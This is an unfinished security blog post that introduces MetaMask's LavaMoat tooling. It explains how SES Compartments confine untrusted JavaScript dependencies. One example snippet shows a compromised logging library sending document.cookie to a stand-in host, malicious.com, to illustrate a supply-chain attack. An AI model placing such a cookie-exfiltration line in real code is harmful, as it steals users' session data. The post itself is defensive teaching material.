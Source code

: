 ```yaml
---
enabled: false
layout: post
tags:  Top,JavaScript,Research,The-Client-Side,Browser,LavaMoat
title: LavaTube - Expermintal JS tool for recursively walk through ???
url: https://weizman.github.io/
date: 14/05/2023
description: ???
keywords: javascript, web, browser, lavamoat, research, prototype, chain, recursive
---
```


> tl;dr - ???

## LavaMoat

This was [already communicated](https://metamask.io/news/security/using-lavamoat-to-solve-software-supply-chain-security/) 
multiple times online, so I won't go too much into details today, but the bottom line is 
that **MetaMask is putting more effort than most of the world into securing the client side of web applications in all sorts of ways.** 

We call this initiative [the LavaMoat toolbox](https://github.com/lavamoat/) in which we focus on the **security side of JavaScript and the client 
side apps we build on top of it**, where we face some interesting and very unique challenges.

We previously covered some of the tools in the toolbox:
* LavaMoat - [Using LavaMoat To Solve Software Supply Chain Security](https://metamask.io/news/security/using-lavamoat-to-solve-software-supply-chain-security/)
* Snow - [Introducing Snow: Securing Nested Ownership of Windows](https://github.com/lavamoat/snow/wiki/Introducing-Snow)

But today we'll focus on a smaller problem we had and the cool little experimental LavaMoat tool we built for facing it - **[LavaTube](https://github.com/LavaMoat/LavaTube/)!**

## Motivation

Working on decentralized applications inherently forces such client side products to be **more secure than other standard ones.**
This is because there isn't really a backend to leverage for traditional security architecture - **the security burden lies fully with the client side of the application.**

That is why, as mentioned above, we at MetaMask put more effort than most of the industry into building **the most secured client side applications we can.**
The tools we build are **generic enough for anyone to use to enhance their JavaScript products security**, but we use them specifically to secure different parts of MetaMask.

This situation forces us to come up and implement many unique solutions to this unique ecosystem (as partly listed above).
These different solutions act as separate protection layers where many of them are around making sure **executed code can only do and access what it should and nothing more.**

We (attempt to) accomplish this task by building on top of [Agoric](https://github.com/agoric)'s amazing [SES](https://github.com/endojs/endo/tree/master/packages/ses) technology, 
because thanks to the SES's [Compartment](https://github.com/endojs/endo/tree/master/packages/ses#compartment)s we can execute arbitrary code in its own virtual realm and provide it with a set of specific APIs we wish it would have while not worrying about it
managing to gain more power than intended. It also won't be able to compromise the integrity of other code running in the system if combined with SES's [lockdown](https://github.com/endojs/endo/tree/master/packages/ses#lockdown) and [harden](https://github.com/endojs/endo/tree/master/packages/ses#harden).

> If you're not familiar with these terms you should either try reading through without making full sense of it, or spend some time reading about [SES](https://github.com/endojs/endo/tree/master/packages/ses), [Compartments](https://github.com/endojs/endo/tree/master/packages/ses#compartment), [lockdown](https://github.com/endojs/endo/tree/master/packages/ses#lockdown), [harden](https://github.com/endojs/endo/tree/master/packages/ses#harden) and [realms](https://weizman.github.io/2022/10/28/what-is-a-realm-in-js)).

### Demonstration

Assume we build a simple program that tells you the time:

```html
<html>
  <head>
    <script>
      function tellTime() {
        console.log('telling time; ' + 'start');
        alert('time is: ' + new Date().toString());
        console.log('telling time; ' + 'end');
      }
    </script>
  </head>
  <body>
    <button onclick="tellTime()"> Click to know the time! </button>
  </body>
</html>
```

Since we LOVE using dependencies to make our lives easier, we better use a proper logging package instead of just calling `console.log`:

```javascript
globalThis.logger = function (msg) {
  console.log(msg);
}
```

```html
<html>
  <head>
    <script src="https://logger.com/lib.js"></script>
    <script>
      function tellTime() {
        logger('telling time; ' + 'start');
        alert('time is: ' + new Date().toString());
        logger('telling time; ' + 'end');
      }
    </script>
  </head>
  <body>
    <button onclick="tellTime()"> Click to know the time! </button>
  </body>
</html>
```

But what do we do if `logger`'s maintainer goes evil? Or compromised?

```javascript
globalThis.logger = function (msg) {
  console.log(msg);
}
fetch('https://malicious.com/stealCookies?data=' + document.cookie);
```

With Compartments, the threat can be eliminated completely:

```html
<html>
  <head>
    <script>
      globalThis.logger = (async function(){
        const data = await fetch('https://logger.com/lib.js');
        const js = await data.text();
        const comp = new Compartment({console});
        comp.evaluate(js);
        return comp.globalThis.logger;
      }());
    </script>
    <script>
      function tellTime() {
        logger('telling time; ' + 'start');
        alert('time is: ' + new Date().toString());
        logger('telling time; ' + 'end');
      }
    </script>
  </head>
  <body>
    <button onclick="tellTime()"> Click to know the time! </button>
  </body>
</html>
```

The code above achieves the same effect, but instead of loading the untrusted dependency to the main realm of our app, we load it 
into a virtual realm (the compartment) and we only allow it to access `console`, so when the code evaluates it'll have access to `console` when it needs it,
but it won't be able to call `fetch` as it wasn't explicitly allowed.

### Background

In MetaMask we work hard on shipping our very own plugin system we call [MetaMask Snaps](https://metamask.io/snaps/).
Aside from it being a super interesting initiative in the Web3 ecosystem that **will unlock some really interesting capabilities**, 
it is quite a complicated task, **especially when you take JavaScript client side security as serious as we do.**

Without making things too complicated, you should know we implement multiple security layers for both MetaMask and Snaps, and some of those layers overlap.
One important security layer both implement is the use of [SES Compartments](https://github.com/endojs/endo/tree/master/packages/ses#compartment).

A SES Compartment is a virtual realm that comes with the full set of JavaScript intrinsics, in which code can be evaluated and cannot escape it:

```javascript
<script>
  const c = new Compartment();
  c.evaluate('');
</script>
```


